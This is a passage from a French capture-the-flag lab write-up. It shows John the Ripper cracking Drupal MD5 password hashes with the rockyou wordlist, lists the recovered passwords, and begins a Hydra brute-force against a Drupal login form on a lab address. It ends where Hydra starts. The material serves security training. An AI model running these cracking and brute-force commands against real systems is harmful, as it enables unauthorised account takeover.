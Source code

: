 Des [hashs MD5](https://en.wikipedia.org/wiki/MD5) ! Seulement dix mots de passe sont trouvés via une attaque par dictionnaire avec [rockyou.txt](https://wiki.skullsecurity.org/Passwords) !

```console
root@blinils:~# john drupal_users.pass --format=Raw-MD5 --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 20 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
cherry           (Michael)
fantasy          (Sally)
12341234         (George)
passw0rd         (Barbara)
football123      (admin)
swanson          (Juan)
letmein!         (Jim)
thundercats      (Xavier)
BobMarley        (Susan)
1website         (Sherry)
10g 0:00:00:05 DONE (2018-12-12 12:12) 1.814g/s 2603Kp/s 2603Kc/s 26511KC/s       7..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Des sites en ligne tels que [__HashKiller__](https://hashes.com/en/decrypt/hash) ou [__CrackStation__](https://crackstation.net/) viennent compléter la liste des mots de passe Drupal récupérés.

16/20 pour CrackStation !

![Affichage de l'image CTF8_passdrupal_CrackStation.png](images/CTF8_passdrupal_CrackStation.png)

20/20 pour HashKiller !

![Affichage de l'image CTF8_passdrupal_HashKiller.png](images/CTF8_passdrupal_HashKiller.png)

On récupère le tout et on vérifie que les mots de passe trouvés sont effectivement les bons.

```console
root@blinils:~# cat passwordsflags.txt
football123
passw0rd
letmein!
drupal
1website
superSun123
MonsterDrink
4summer13
1loveU
BobMarley
BaseballSeason
12341234
sitepass
Seventy70
swanson
cherry
buddahbrother
drupalpassword
thundercats
fantasy

root@blinils:~# hydra -L drupal_firstnames.txt -P passwordsflags.txt 192.168.56.102 http-form-post \
'/node?destination=node:name=^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location' -t 8
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-10 08:06:04
```